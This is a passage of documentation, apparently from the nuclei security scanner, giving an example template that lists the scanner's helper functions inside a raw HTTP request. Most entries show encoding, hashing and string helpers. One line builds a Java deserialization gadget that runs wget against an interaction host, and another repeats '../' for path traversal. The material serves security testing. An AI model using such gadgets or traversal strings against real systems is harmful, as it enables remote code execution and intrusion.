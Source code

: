 ```yaml
        status:
          - 200
```

#### help_functions

```yaml
id: helper-functions-examples

info:
  name: RAW Template with Helper Functions
  author: pdteam
  severity: info

requests:
  - raw:
      - |
        GET / HTTP/1.1
        Host: {{Hostname}}
        01: {{base64("Hello")}}
        02: {{base64(1234)}}
        03: {{base64_decode("SGVsbG8=")}}
        04: {{base64_py("Hello")}}
        05: {{contains("Hello", "lo")}}
        06: {{generate_java_gadget("commons-collections3.1", "wget http://{{interactsh-url}}", "base64")}}
        07: {{gzip("Hello")}}
        08: {{hex_decode("6161")}}
        09: {{hex_encode("aa")}}
        10: {{html_escape("<body>test</body>")}}
        11: {{html_unescape("&lt;body&gt;test&lt;/body&gt;")}}
        12: {{len("Hello")}}
        13: {{len(5555)}}
        14: {{md5("Hello")}}
        15: {{md5(1234)}}
        16: {{mmh3("Hello")}}
        17: {{print_debug(1+2, "Hello")}}
        18: {{rand_base(5, "abc")}}
        19: {{rand_base(5)}}
        20: {{rand_char("abc")}}
        21: {{rand_char()}}
        22: {{rand_int(1, 10)}}
        23: {{rand_int(10)}}
        24: {{rand_int()}}
        25: {{rand_text_alpha(10, "abc")}}
        26: {{rand_text_alpha(10)}}
        27: {{rand_text_alphanumeric(10, "ab12")}}
        28: {{rand_text_alphanumeric(10)}}
        29: {{rand_text_numeric(10, 123)}}
        30: {{rand_text_numeric(10)}}
        31: {{regex("H([a-z]+)o", "Hello")}}
        32: {{remove_bad_chars("abcd", "bc")}}
        33: {{repeat("../", 5)}}
        34: {{replace("Hello", "He", "Ha")}}
        35: {{replace_regex("He123llo", "(\\d+)", "")}}
        36: {{reverse("abc")}}
        37: {{sha1("Hello")}}
        38: {{sha256("Hello")}}
        39: {{to_lower("HELLO")}}
        40: {{to_upper("hello")}}
        41: {{trim("aaaHelloddd", "ad")}}
        42: {{trim_left("aaaHelloddd", "ad")}}
        43: {{trim_prefix("aaHelloaa", "aa")}}
        44: {{trim_right("aaaHelloddd", "ad")}}
```